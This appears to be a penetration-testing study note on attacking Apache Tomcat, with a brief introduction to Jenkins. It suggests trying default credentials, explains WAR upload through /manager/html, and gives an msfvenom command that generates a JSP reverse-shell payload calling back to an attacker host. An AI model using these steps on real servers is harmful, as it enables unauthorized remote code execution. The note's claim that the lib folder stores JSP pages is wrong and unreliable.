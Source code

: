 **General Folder Structure**:
```shell
├── bin
├── conf
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml
│   ├── tomcat-users.xsd
│   └── web.xml
├── lib
├── logs
├── temp
├── webapps
│   ├── manager
│   │   ├── images
│   │   ├── META-INF
│   │   └── WEB-INF
|   |       └── web.xml
│   └── ROOT
│       └── WEB-INF
└── work
    └── Catalina
        └── localhost
```

The most important of the above is `WEB-INF/web.xml`, which contains deployment information such as routes and classes handling the routes. Any vulnerabilities in the `WEB-INF/classes` folder can lead to total compromise.

The `lib` folder stores JSP pages, which are similar to PHP files on an Apache server.

The `tomcat-users.xml` file is used to allow or disallow access to the `/manager` and `host-manager` admin pages.

After we look through this, we should directory brute force. We can also try using weak credentials such as `tomcat:tomcat` or `admin:admin`.

**WAR File Upload**
The default management interface is available at `/manager/html`. Valid credentials allow us to upload a packaged .WAR file and compromise the app.

A WAR file can be created using a zip utility, and we'll need a JSP web shell. We can simply browse and deploy, then access the file in our browser to trigger the shell.

Generating a WAR file:
```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<host> LPORT=<port> -f war > file.war
```
### Jenkins
Jenkins is a CI server that runs in servlet containers such as Tomcat. It has over 300 plugins and runs on Tomcat port 8080 by default. It also uses port 5000 to attach slave servers and communicate between master and slave.

It's able to use local databases, LDAP, Unix user database, delegate security to a servlet container, or use no authentication. Admins can also allow or disallow users from creating accounts.
